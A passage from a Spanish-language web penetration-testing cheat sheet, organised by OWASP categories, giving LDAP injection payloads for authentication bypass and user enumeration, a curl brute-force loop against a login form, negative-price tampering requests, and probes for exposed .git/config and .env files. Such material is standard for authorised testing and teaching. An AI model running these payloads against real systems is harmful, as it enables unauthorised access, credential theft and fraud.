 #### **LDAP Injection**
```bash
# Bypass autenticación
*)(uid=*))(|(uid=*
*)(cn=*))(|(cn=*

# Enumeración
*)(objectClass=user)
*)(sAMAccountName=*)
```

### **4. Insecure Design (A04:2021)**

#### **Indicadores**
- Falta de rate limiting
- Ausencia de CAPTCHA
- Validación solo del lado cliente
- Funcionalidad de "recordar contraseña" insegura

#### **Tests**
```bash
# Rate limiting test
for i in {1..100}; do 
    curl -d "user=admin&pass=test$i" http://target/login
done

# Business logic flaws
curl -d "price=-100&item=laptop" http://target/purchase
curl -d "quantity=-5&product=123" http://target/cart/add
```

### **5. Security Misconfiguration (A05:2021)**

#### **Detección Automática**
```bash
# Información del servidor
curl -I http://target | grep Server
curl -I http://target | grep X-Powered-By

# Directorios expuestos
curl http://target/.git/config
curl http://target/.env
curl http://target/backup/
curl http://target/admin/

# Archivos sensibles
curl http://target/robots.txt
curl http://target/sitemap.xml
curl http://target/.htaccess
```

#### **Headers de Seguridad**
```bash
# Verificar headers faltantes
curl -I https://target.com | grep -E "(Content-Security-Policy|X-Frame-Options|X-Content-Type-Options)"
```
